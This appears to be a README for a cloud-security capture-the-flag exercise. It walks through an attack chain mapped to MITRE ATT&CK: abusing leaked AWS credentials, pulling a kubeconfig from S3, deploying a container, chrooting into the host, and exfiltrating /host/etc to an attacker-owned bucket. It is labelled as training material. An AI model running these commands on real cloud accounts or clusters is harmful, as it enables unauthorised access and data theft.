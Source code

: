 # Essential Tools to Win Magic CTF

## cloudcreds2exfil – Cloud Security Simulation

**Disclaimer:**  
This repository is for **educational use only** in authorized environments such as CTFs, cloud labs, or security training ranges. Do not use any part of this project on real systems without permission.

---

## Overview

The match was meant to be routine, until someone on the team leaked the game plan. An unexpected player slipped in, disguised and unmarked. What followed was a silent play, moving past the midfield, breaching the last line, and walking the ball into the net. By the time the Avengers noticed, the scoreboard had already changed.

---

## Attack Chain Simulation

---

## Commands & Mapping

### Step 1: Something was left unlocked
The first clue lies in plain sight - configure, but don’t question.

Use the credentials to authenticate via AWS CLI.

**MITRE ATT&CK:**  
T1528 – Steal Application Access Token  
T1552.001 – Unprotected Credentials in Files

```bash
aws configure
aws sts get-caller-identity
```

---

### Step 2: They stored more than just objects
What’s in the box may not be just files. Look deeper.

List available buckets and explore their contents. Look for sensitive data like configuration files.

**MITRE ATT&CK:**  
T1530 – Data from Cloud Storage Object  
T1083 – File and Directory Discovery

```bash
aws s3 ls
aws s3 ls s3://<bucket-name>
aws s3 sync s3://<bucket-name> ./downloaded-data
```

---

### Step 3: You now speak its language
You’ve found the map. It doesn’t shout - but it guides.

**MITRE ATT&CK:**  
T1592.002 – Gather Cloud Infra Config: Container Orchestration  
T1609 – Kubernetes API Access

```bash
export KUBECONFIG=downloaded-data/kubeconfig
kubectl get nodes
kubectl get pods -A
```

---

### Step 4: Walk among them

Disguised as one of their own, you enter the field.

**MITRE ATT&CK:**  
T1610 – Deploy Container  
T1611 – Escape to Host

```bash
kubectl apply -f <<name>.yaml
kubectl get pods
kubectl exec -it <name> -- /bin/bash
```

---

### Step 5: Beyond the container wall

What lies beneath may not be hidden - only ignored.

**MITRE ATT&CK:**  
T1057 – Process Discovery  
T1082 – System Information Discovery

```bash
ls /host
chroot /host
hostname
```

---

### Step 6: Leave nothing... or leave everything
If you must leave, take a souvenir. Just don’t leave a trace.

**MITRE ATT&CK:**  
T1537 – Transfer Data to Cloud Account  
T1005 – Data from Local System  
T1041 – Exfiltration Over C2 Channel

```bash
aws s3 sync /host/etc s3://<your-exfil-bucket>/etc-backup
```

## Usage Guidelines

- Use only in test environments (e.g., personal AWS account, private CTFs, cyber ranges).
- Never use these techniques in production systems or without explicit permission.
- Designed for red vs. blue team simulations, training, and awareness.

---

## License

MIT License – Use allowed for educational and research purposes only.

---

## Contact

Open an issue or contact the maintainers for questions or suggestions.
